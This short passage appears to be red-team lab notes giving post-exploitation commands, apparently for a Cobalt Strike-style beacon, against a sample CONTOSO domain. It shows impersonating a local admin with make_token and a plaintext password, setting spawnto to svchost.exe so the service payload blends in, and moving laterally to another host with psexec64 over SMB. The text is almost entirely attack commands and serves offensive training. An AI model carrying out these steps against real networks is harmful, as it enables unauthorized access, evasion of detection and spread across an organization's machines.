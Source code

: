 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 lon-ws-1 smb
```

---

